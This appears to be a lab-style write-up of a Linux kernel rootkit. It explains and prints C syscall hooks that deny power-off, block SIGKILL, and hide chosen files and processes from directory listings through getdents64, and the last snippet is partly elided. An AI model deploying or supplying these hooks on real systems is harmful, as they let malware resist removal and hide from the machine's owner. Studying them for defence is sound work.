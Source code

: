 **Reboot**
According to [this website](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md), to query the registers needed for the reboot System table, we only need to know the value of the cmd to determine if it is a poweroff. If the cmd is LINUX_REBOOT_CMD_POWER_OFF, then we need to interrupt. For the rest, we execute the original reboot syscall as usual, by directly transferring to orig_reboot(pt_regs).
```c=
static asmlinkage int hacked_reboot(const struct pt_regs *pt_regs) {
    unsigned int cmd;
    cmd = (unsigned int) pt_regs->regs[2];
    printk(KERN_INFO "enter hacked reboot section.\n");

    if(cmd == LINUX_REBOOT_CMD_POWER_OFF) {
        printk(KERN_INFO "power off command intercepted and denied.\n");
        return 0;
    }

    return orig_reboot(pt_regs);
}
```


**kill**
According to [this website](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md), to determine the signal used by the user, it is stored in regs[1].

When the user employs the kill command, there are two cases:
If sig == 9, the hook should intercept the signal and prevent SIGKILL from occurring.
Otherwise, proceed with the original kill operation.
```c=
static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
{
    int sig = (int) pt_regs->regs[1];
    printk(KERN_INFO "enter hacked kill section.\n");

    switch (sig) {
        case 9:
            printk(KERN_INFO "kill signal intercepted and denied.\n");
            break;
        default:
            return orig_kill(pt_regs);
    }
    return 0;
}
```
**getdents64**
When using the ls command, the readdir function is called to invoke getdents64 to retrieve files/directories. In this modified version, some alterations have been made during the traversal process to hide specific files or directories.
```c=
static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs) {
...
    while (off < ret) {
        dir = (void *)kdirent + off;
        if (((HIDDEN_FILE && *HIDDEN_FILE != '\0') && (!proc && (memcmp(HIDDEN_FILE, dir->d_name, strlen(HIDDEN_FILE)) == 0))) || (proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10)))){
            if (dir == kdirent) {
                ret -= dir->d_reclen;
                memmove(dir, (void *)dir + dir->d_reclen, ret);
                continue;
            }
            prev->d_reclen += dir->d_reclen;
        } else
            prev = dir;
        off += dir->d_reclen;
    }
```